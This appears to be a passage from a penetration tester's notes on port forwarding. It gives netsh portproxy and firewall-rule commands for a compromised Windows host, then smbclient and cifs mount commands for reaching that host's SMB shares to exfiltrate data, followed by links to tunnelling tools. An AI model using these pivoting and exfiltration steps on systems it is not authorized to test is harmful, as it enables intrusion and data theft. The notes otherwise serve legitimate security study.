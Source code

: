 With SYSTEM level Windows access we can use `netsh`. First `IP Helper service` is running and it must have IPv6 support enabled for interface to work.
```powershell
# Configure firewall to allow traffic
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=$local_ip localport=$local_port action=allow
# Connect back
netsh interface portproxy add v4tov4 listenport=$port listenaddress=$IP connectport=$local_port connectaddress=$connect_address
```

Beware UAC!  `portproxy` subcontext of the `netsh interface` command requires administrative privileges`
```powershell
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=$interfaceToListenOn connectport=22 connectaddress=$AddresOfBoxConnecting
netstat -anp TCP | find "2222"
netsh interface portproxy show all

netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=$interfaceToListenOn localport=2222 action=allow

# Clean up
netsh advfirewall firewall delete rule name="port_forward_ssh_2222"
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=$interfaceToListenOn
```

You can then use sbmclient, see [[SMB-Recon-Cheatsheet]], and mount to the share to exfilitrate data.
```bash
# Set correct protocol in smb.conf
sudo /etc/init.d/smbd restart
# List shares, port forward generates an timeout error
smbclient -L $target_address --port=$firewall_happy_port_from_above --user=Administrator
# Mount into shares to interact
sudo mkdir /mnt/$local_share
sudo mount -t cifs -o port=$firewall_happy_port_from_above //$target_address/$remote_share -o username=Administrator,password=$password /mnt/$local_share
````

## Reference

[Tunneling(Protocol) Wiki](https://en.wikipedia.org/wiki/Tunneling_protocol)
[Port forwarding Wiki](https://en.wikipedia.org/wiki/Port_forwarding)
[SSH has an academy](https://www.ssh.com/academy/ssh/protocol)
[PLINK](https://the.earth.li/~sgtatham/putty/0.53b/htmldoc/Chapter7.html)
[Chisel](https://github.com/jpillora/chisel)
[Rinetd](https://github.com/samhocevar/rinetd) - Note: github version linked as his personal website has a certificate issues..
[Stunnel](https://www.stunnel.org/)
[SANS using-the-ssh-konami-code-ssh-control-sequences](https://www.sans.org/blog/using-the-ssh-konami-code-ssh-control-sequences/)
[iredteam](https://www.ired.team/offensive-security/lateral-movement/ssh-tunnelling-port-forwarding)
[John Hammond Port Bending Explained](https://www.youtube.com/watch?v=d6qtr-rYxXw)
[HacksTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding)